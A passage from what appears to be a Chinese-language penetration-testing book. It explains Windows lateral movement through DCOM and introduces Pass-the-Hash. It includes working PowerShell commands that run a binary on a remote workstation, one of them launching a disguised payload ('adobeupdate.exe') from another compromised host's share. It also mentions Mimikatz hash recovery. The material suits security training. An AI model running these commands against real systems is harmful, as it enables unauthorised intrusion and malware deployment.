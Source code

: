 
![](../images/chapter_4/4-36.png)

### 利用 DCOM 的横向移动

有许多方法可以在主机上进行单次横向移动。如果泄露的帐户具有访问权限，或者你能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程命令执行或 PSExec 生成不同的 shell。如果这些执行命令的方法受到监控怎么办？我们通过使用分布式组件对象模型（DCOM）实现一些很酷的 Windows 功能。DCOM 是用于在不同远程计算机上的软件组件之间通信的 Windows 功能。

你可以使用 Powershell 命令列出计算机的所有 DCOM 应用程序：GetCimInstance Win32_DCOMApplication

![](../images/chapter_4/4-37.png)

安全研究员 @enigam0x3 的研究发现（ https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/ ），有多个对象（例如 ShellBrowserWindow 和 ShellWindows ）允许在受害者主机上远程执行代码。当列出所有 DCOM 应用程序（如上图所示）时，你将看到一个 CLSI 为 C08AFD90-F2A1-11D1-845500A0C91F3880 的 ShellBrowserWindow 对象。识别出该对象后，只要我们的帐户有权访问，我们就可以利用此功能在远程工作站上执行二进制文件。

- powershell
- $([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“c:\windows\system32\calc.exe”)

这将只在系统本地执行文件，并且我们不能将任何命令行参数包含到可执行文件中（因此不能使用 cmd /k 类型的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意，用户将收到警告的弹窗。在本例中，我目前在一个受害者的主机 neil.cyberspacekittens.local 上，该主机可以管理访问一个名为 buzz 的远程工作站。我们将在 Neil 的工作站上共享一个文件夹，并托管我们的 payload。接下来，我们可以调用 DCOM 对象在远程受害者（buzz）计算机上执行托管的 payload。

$([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-
00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“\neil.cyberspacekittens.local\Public\adobeupdate.exe”)

![](../images/chapter_4/4-38.png)

正如你在下一张图片中看到的，Buzz 的计算机上出现了一个关于运行 adobeupdate.exe 文件的弹出窗口。虽然大多数用户都会点击并运行这个，但它可能会让我们被目标察觉。

![](../images/chapter_4/4-39.png)

因此，避免这个问题的更好方法是在使用 DCOM 执行该文件之前将该文件移到上面（类似于装载受害者的驱动器）。@Enigam0x3对此做得更进一步，并利用 Excel 宏来使用 DCOM。首先，我们需要在自己的系统上创建恶意 Excel 文档，然后使用 [PowerShell 脚本](https://bit.ly/2pzJ9GX)在受害者主机上执行此.xls 文件。

需要注意的一点是，有许多其他的 DCOM 对象可以从系统中获取信息，可能会启动或停止服务等等。这无疑为进一步研究 DCOM 功能提供了很好的起点。

参考文献：

- https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
- https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
- https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### Pass-the-Hash

过去传递本地管理帐户 Pass-The-Hash（PTH）的方法在很大程度上已经开始消失。虽然还没有完全消失，但让我们快速回顾一下。PTH 攻击利用 Windows NTLM 哈希对系统进行身份验证，而不是使用用户的凭据。这是很重要的一点，首先，使用 Mimikatz 这样的工具可以很容易地恢复哈希，可以为本地帐户提取哈希（但需要本地管理员权限），可以从转储域控制器（不是明文密码）中恢复哈希（DCsync）等等。


PTH 最基本的用途是攻击本地管理员。由于默认情况下本地管理员帐户已被禁用，并且出现了更新的安全功能，例如本地管理员密码解决方案（LAPS），为每个工作站创建随机密码，因此通常很少使用上述这种方法。过去，在一个工作站上获取本地管理帐户的哈希值在整个组织中是可以用相同的方法实现的，这意味着一个易受攻击的方案会使整个公司破产。

当然，这要求你必须是系统上的本地管理员，启用本地管理员帐户“administrator”，并且它是 RID 500帐户（意味着它必须是原始管理员帐户，不能是新创建的本地管理员帐户）。
